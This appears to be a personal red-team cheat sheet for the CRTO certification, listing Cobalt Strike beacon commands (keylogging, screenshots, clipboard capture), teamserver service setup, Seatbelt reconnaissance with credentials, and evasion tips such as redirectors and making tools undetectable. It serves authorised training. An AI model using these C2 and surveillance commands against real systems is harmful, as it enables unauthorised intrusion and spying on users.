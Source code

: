 +++
date = "2025-01-27"
title = "CRTO Cheatsheet"
description = "CRTO Cheatsheet"
author = "Javier Olmedo"
toc = true
+++

# Top commands 🥇
---
## CobaltStrike 🥷
---
```bash
# Basics
sleep <seconds> <jitter> # sleep 5 50 -> slee time between 2.5 y 7.5
execute-assembly <path_tool> <params_tool> # Execute binary on remote Beacon -> execute-assembly /var/www/html/Seatbelt.exe -group=system


# Recon
net logons
clipboard
keylogger 
printscreen
screenshot
screenwatch

# DNS Beacon
checkin # Get metadata/info Beacon
```
### How to run TeamServer 🏃‍♂️
---
#### Manual ✍️
---
```bash
sudo ./teamserver <ip> <password> <c2_profile> <kill_date> # 192.100.1.1 MyPassword! /opt/c2.profile 2025-12-31
```
#### Running as a service ⚙️
---
```bash
sudo nano /etc/systemd/system/teamserver.service
```

```txt
[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/opt/cobaltstrike/Server
ExecStart=/opt/cobaltstrike/Server/teamserver <ip> <password> <c2_profile> <kill_date>

[Install]
WantedBy=multi-user.target
```

https://github.com/0xBeacon/Cobalt-Strike-as-a-Service/blob/main/setup.sh
#### Start and Stop 🟢🔴
---
Reload `systemd manager` 🔄
```sh
sudo systemctl daemon-reload
sudo systemctl status teamserver.service # It wil be inactive/dead
```

Start service 🟢
```sh
sudo systemctl start teamserver.service # Only start service
sudo systemctl enable teamserver.service # Enable service on boot
```

Stop service 🔴
```bash
sudo systemctl stop teamserver.service # Only start service
sudo systemctl disable teamserver.service # Enable service on boot
```

Get status service ℹ️
```sh
sudo systemctl status teamserver.service
```
### Profiles examples 👤
---
```bash
# Add this on profile
set sleeptime "5000";
set jitter "50";
```
## Seatbelt
---
```bash
# Pending to make it FUD when compiling
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=system -outputfile="c:\users\public\seatbelt.txt" # group -> all,user

# Remote
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=remote -computername=<computer.domain.com> -username=<domain\user> -password=<password> -outputfile="c:\users\public\seatbelt.txt"
```
## SharPersist
---
```bash

```
# TIPs 💡
```
recomendado lanzar el teamserver en una sesión de tmux
siempre usar stageless
no usar en teamserver a internet, siempre detras de un redirector
```

# Cheatsheets
---
- https://hackmd.io/@_1PdHqbfSHyQw7PmiDCzEg/SyIQaTmIi

# Repositorios 📦
---
- https://github.com/h3ll0clar1c3/CRTO